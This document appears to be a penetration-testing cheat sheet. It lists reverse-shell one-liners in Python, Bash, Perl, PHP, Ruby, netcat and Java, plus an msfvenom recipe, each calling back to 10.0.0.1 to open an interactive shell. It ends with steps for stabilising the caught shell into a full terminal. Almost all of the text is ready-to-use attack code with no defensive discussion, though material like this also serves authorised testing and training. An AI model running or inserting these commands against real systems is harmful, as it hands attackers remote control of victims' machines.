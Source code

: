 # Shells - Generating & Stabilising

## Generating
- **Msfvenom way**
```
msfvenom -l payloads | grep "cmd/unix" # Choose from here

msfvenom -p <chosen-payload> LHOST=something LPORT=something R # Get the shell-spawning command shown on screen, copy it and execute on target machine
```
- Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
- Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
- nc
```
nc -e /bin/sh 10.0.0.1 1234
OR
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
- Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
~ From [ropnop](https://blog.ropnop.com/) and [PentestMonkey](http://pentestmonkey.net/)

## Stabilising
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z # background the nc

# In Kali
$ stty -a # Note the terminal dimensions
$ echo $TERM #Note term variable
$ stty raw -echo
$ fg # foreground the nc

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=<term> # what you found above
$ stty rows <num> columns <cols> #what you found above
```
~ From [ropnop](https://blog.ropnop.com/)
